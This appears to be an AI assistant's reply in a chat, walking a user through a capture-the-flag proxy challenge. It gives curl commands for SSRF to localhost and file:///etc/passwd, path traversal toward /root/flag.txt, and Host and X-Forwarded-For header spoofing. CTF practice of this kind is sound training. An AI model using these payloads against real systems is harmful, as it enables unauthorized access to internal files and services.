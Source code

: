 Great! Now that you know the **target URL** (`http://challenge.ctf.games:32435`), here’s how we can **interact with the proxy, escalate privileges, and potentially retrieve the flag**. Let’s walk through the steps that involve **proxy interaction with a remote URL**.

---

## **How a Proxy Works with a Remote Target**
- **Proxies** intercept and forward requests between you and the **target server** (in this case, `http://challenge.ctf.games:32435`).
- If the **proxy is misconfigured**, you might be able to:
  - **Access restricted services** (like internal endpoints or files).
  - **Perform SSRF (Server-Side Request Forgery)** to access **localhost or privileged resources**.
  - **Use tunneling techniques** to interact with **internal files, such as `/root/flag.txt`**.

---

## **Plan of Attack for the Challenge**

We’ll focus on:
1. **Trying SSRF attacks** via the known URL.
2. **Manipulating HTTP headers** (such as Host headers).
3. **Exploring directory traversal** through the proxy.

---

## **Step 1: Test Basic Connectivity and Headers**
Run a **basic curl command** to the provided target:

```bash
curl -v http://challenge.ctf.games:32435/
```

This will help you:
- Confirm whether the server is reachable.
- See any **headers or error messages** returned (could hint at proxy behavior).

---

## **Step 2: Try SSRF to Access Local or Internal Services**

The goal is to see if you can **trick the server into accessing internal resources** like `localhost` or `/root/flag.txt`. Try sending **requests to localhost via the proxy**:

```bash
curl -v "http://challenge.ctf.games:32435/?url=http://127.0.0.1:80"
curl -v "http://challenge.ctf.games:32435/?url=http://localhost/root/flag.txt"
curl -v "http://challenge.ctf.games:32435/?url=file:///etc/passwd"
```

- If successful, the server might return **internal content** (like `/etc/passwd` or the flag).
- Check if it resolves **internal IPs**, such as `http://127.0.0.1` or `http://192.168.0.1`.

---

## **Step 3: Directory Traversal and Path Manipulation**

If the proxy **filters paths** based on certain criteria, try **directory traversal attacks**:

```bash
curl -v "http://challenge.ctf.games:32435/../../../../root/flag.txt"
curl -v "http://challenge.ctf.games:32435/..%2f..%2f..%2f..%2froot/flag.txt"
```

This could let you **escape the current directory** and access restricted files.

---

## **Step 4: Host Header Injection**

Many proxies rely on the **Host header** to determine the target service or route requests. Try sending different **Host headers**:

```bash
curl -v http://challenge.ctf.games:32435/ -H "Host: localhost"
curl -v http://challenge.ctf.games:32435/ -H "Host: 127.0.0.1"
```

If successful, this could **trick the proxy** into exposing internal files or routes.

---

## **Step 5: Manipulate Cache and Forwarded Headers**

Proxies use **Forwarded headers** to determine the origin of the request. Try modifying these headers:

```bash
curl -v http://challenge.ctf.games:32435/ -H "X-Forwarded-For: 127.0.0.1"
curl -v http://challenge.ctf.games:32435/ -H "X-Original-URL: /root/flag.txt"
```

If successful, you might bypass the proxy’s restrictions and access **internal content**.

---

## **Step 6: Burp Suite Proxy Interception (Optional)**

1. **Set up Burp Suite** and intercept the traffic to `http://challenge.ctf.games:32435`.
2. **Modify headers** or URLs on the fly to test for vulnerabilities.
3. Try accessing **internal routes or escalating privileges** using crafted headers.

---

## **Step 7: Look for Exposed Admin Panels or Configurations**

Sometimes proxies expose **admin panels or services** that aren’t intended to be public. Try common admin paths:

```bash
curl -v http://challenge.ctf.games:32435/admin
curl -v http://challenge.ctf.games:32435/config
```

These could allow you to **view sensitive information or elevate privileges**.

---

## **Next Steps**

- If the flag is hidden in `/root/flag.txt`, your best bet is **SSRF** or **Host Header Injection**.
- Use **Burp Suite** to thoroughly test the proxy and modify traffic.
- If any **error messages** appear, take note—they may reveal what the server expects or how it routes requests.

Let me know if you encounter any blockers!
